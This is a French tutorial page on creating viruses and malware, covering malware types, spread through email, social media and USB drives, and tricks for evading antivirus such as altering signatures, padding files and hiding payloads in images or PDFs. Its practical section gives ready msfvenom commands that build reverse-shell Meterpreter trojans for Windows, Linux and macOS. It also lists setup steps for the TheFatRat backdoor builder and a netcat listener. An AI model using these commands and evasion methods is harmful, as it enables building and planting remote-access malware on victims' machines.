


I - Introduction
Qu'es ce que la création de virus ?
La création de virus consiste à créer des virus/malwares afin d'avoir un contrôle sur l'équipement visé ou de dégrader celui-ci
Les différents types de virus/malwares
Il existe différents types de virus/malwares :
Trojan ou Cheval de troie :
Le cheval de Troie est un logiciel en apparence légitime, mais qui contient une fonctionnalité malveillante. Dans la plupart des cas, il permet de prendre le contrôle d'une machine à distance.
Ransomware ou Rançongiciel :
Un ransomware est un logiciel malveillant qui chiffre les données d'une machine et demande une rançon (généralement en cryptomonnaie) pour déchiffrer les données.
Keyloggger :
Un keylogger enregistre tout ce que vous tapez au clavier et renvoie le résultat à l'attaquant (généralement par mail)
Vers :
est un logiciel malveillant qui se reproduit sur plusieurs ordinateurs en utilisant un réseau informatique comme Internet. Il a la capacité de se dupliquer une fois qu'il a été exécuté. Contrairement au virus, le ver se propage sans avoir besoin de se lier à d'autres programmes.
RootKit :
Un rootkit ou simplement « kit », est un ensemble de techniques mises en œuvre par un ou plusieurs logiciels, dont le but est d'obtenir et de pérenniser un accès à un ordinateur le plus furtivement possible.
Miner ou Mineur :
Un mineur vas tout simplement miner de la cryptomonnaie pour l'attaquant sans que la victime ne s'en rende compte.
Spyware ou Logiciel espion :
Un spyware est un logiciel malveillant qui s'installe dans un ordinateur ou autre appareil mobile, dans le but de collecter et transférer des informations sur l'environnement dans lequel il s'est installé, très souvent sans que l'utilisateur en ait connaissance.
Adware ou logiciel publicitaire :
Un spyware est un logiciel qui affiche de la publicité lors de son utilisation. Un logiciel publicitaire contient habituellement deux parties : une partie utile qui incite un utilisateur à l'installer sur son ordinateur ; une partie qui gère l'affichage de la publicité.
Techniques de propagation de virus
Les virus/malwares peuvent être transmis de pleins de façons possibles :
- Par mail
- Par les réseaux sociaux
- Par une clé usb ou tout autre support de stockage
Techniques de bypass des Antivirus
Heureusement nos chers antivirus nous protègent asser bien de ces menaces mais les hackers ne sont pas stupides et ont vite mis en place plusieurs techniques pour tromper les antivirus :
Allourdir le fichier :
En effet, allourdir les fichiers malveillants peut être une solution car l'antivirus mettras plus de temps à scanner ce fichier ou ne le scanneras tout simplement pas de par sa taille.
Changer la signature du virus :
Les antivirus détéctent les malwares avec leur signature (c'est la première analyse que font les antivirus) donc si on change cette signature, plus de détéction par signature.
"Habiller" le virus :
Les hackers ont parfois des techniques asser bizarre mais pour le coup celle-ci fonctionne asser bien, il suffit simplement de cacher le virus dans une images ou un pdf pour que l'antivirus croie que c'est un simple fichier pdf ou une simple images.
Les encoders :
Il existe des encoders qui permettent en quelques sorte de bloquer l'accès à la signature pour les antivirus, cette methode fonctionne de moins en moins car les antivirus considèrent que tout les fichiers qui sont encodés même si ils ne sont pas des virus, sont quand même bloqués.
Outils
Metasploit Framework

J'ai déjà parlé de cet outil dans cette page mais là nous allons nous intérresser à la partie msfvenom de cet outil.
msfvenom est une commande qui permet de générer des "shellcodes" et des "payloads". En gros, il sert à générer des virus pour windows, linux, mac et même pour android (même si techniquement, android c'est linux).
Commandes :
Créer un cheval de troie :
WINDOWS :
Réseau local (TCP) : msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > virus.exe
Internet (HTTP) : msfvenom -p windows/meterpreter/reverse_http LHOST=10.10.10.10 LPORT=4444 -f exe > virus.exe
Internet (HTTPS) : msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=4444 -f exe > virus.exe
LINUX :
Réseau local (TCP) : msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > virus.elf
Internet (HTTP) : msfvenom -p linux/x86/meterpreter/reverse_http LHOST=10.10.10.10 LPORT=4444 -f elf > virus.elf
Internet (HTTPS) : msfvenom -p linux/x86/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=4444 -f elf > virus.elf
MAC :
Réseau local (TCP) : msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f macho > virus.macho
Internet (HTTP) : msfvenom -p osx/x86/shell_reverse_http LHOST=10.10.10.10 LPORT=4444 -f macho > virus.macho
Internet (HTTPS) : msfvenom -p osx/x86/shell_reverse_https LHOST=10.10.10.10 LPORT=4444 -f macho > virus.macho
TheFatRat
TheFatRat est un outil d'exploitation qui compile un malware avec une charge utile célèbre, puis le maware compilé peut être exécuté sur Linux, Windows, Mac et Android. TheFatRat fournit un moyen simple de créer des portes dérobées et une charge utile qui peuvent contourner la plupart des antivirus.
Installation :
git clone https://github.com/screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh && ./setup.sh
Mise à jour :
cd TheFatRat
./update && chmod +x setup.sh && ./setup.sh
Commande :
sudo fatrat
TheFatRat GitHub
NetCat
Un utilitaire Unix simple qui lit et écrit des données sur des connexions réseau à l'aide du protocole TCP ou UDP. Il est conçu pour être un outil "back-end" fiable qui peut être utilisé directement ou facilement piloté par d'autres programmes et scripts. En même temps, il s'agit d'un outil de débogage et d'exploration de réseau riche en fonctionnalités, car il peut créer presque tous les types de connexion dont vous auriez besoin et possède plusieurs fonctionnalités intégrées intéressantes.
Commande :
Ecouter sur le port 4444 :
nc -nlvp 4444
Virus Total
VirusTotal est un service en ligne appartenant à Google qui permet l'analyse de fichiers suspects et facilite la détection rapide des virus, vers, chevaux de Troie et toutes sortes de logiciels malveillants détectés par les moteurs antivirus.
VirusTotalConclusion
Conclusion
- Il existe différent types de virus/malwares en fonction du besoin de chacuns (trojan, ransomware etc...)
- Plusieurs outils existent afin de créer ces virus/malwares
- Ils peuvent se propager via internet (mail, réseaux sociaux etc...) mais aussi par support de stockage physique (clé usb, disque dur etc...)
- Des techniques on été mises en places pour bypass les antivirus (allourdir le fichier, cacher le virus dans une images ou un pdf etc...)